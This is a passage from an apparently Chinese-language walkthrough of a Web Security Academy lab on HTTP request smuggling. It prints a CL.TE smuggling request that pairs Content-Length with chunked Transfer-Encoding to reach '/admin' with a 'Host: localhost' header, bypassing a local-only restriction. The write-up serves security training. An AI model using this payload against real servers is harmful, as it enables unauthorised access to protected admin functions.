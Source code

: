 此时第二个数据包中看到只允许local访问

[![](assets/1704418275-33b86df6e599a9a11caae9b56f876683.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155119-e1808cba-aa0c-1.png)  
随后添加头部信息"Host: localhost"，修改后的请求数据包如下并请求两次：  
[![](assets/1704418275-2fb084ddcde8944cded96602d2d93f68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155201-fa4f1b44-aa0c-1.png)  
从上面可以看到这里由于第二个请求的主机头与第一个请求中走私的主机头冲突，从而导致请求被阻塞，随后发送以下请求两次以便将第二个请求的标头附加到走私的请求正文中：

```plain
POST / HTTP/1.1
Host: 0ae3000c04275ff48012fd73008e00b8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```
